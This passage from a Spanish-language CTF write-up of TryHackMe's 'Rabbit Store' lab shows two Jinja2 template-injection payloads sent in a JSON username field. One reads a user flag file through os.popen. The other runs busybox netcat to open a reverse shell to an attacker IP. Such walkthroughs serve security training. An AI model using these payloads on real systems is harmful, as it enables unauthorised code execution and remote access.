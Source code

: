 
Aprovechamos la vulnerabilidad y logramos obtener la flag de usuario:
```json
{
  "username":"{{ config.__class__.from_envvar.__globals__.import_string('os').popen('cat /home/azrael/user.txt').read() }}"
}
```
![](../assets/img/Rabbit_store-tryhackme-writeup/22.png)

## Escalada de privilegios
A continuación, ponemos un **netcat** a la escucha y ejecutamos el siguiente comando para obtener una reverse shell:
```json
{
  "username":"{{ config.__class__.from_envvar.__globals__.import_string('os').popen('busybox nc 10.9.4.73 443 -e sh').read() }}"
}
```
![](../assets/img/Rabbit_store-tryhackme-writeup/23.png)
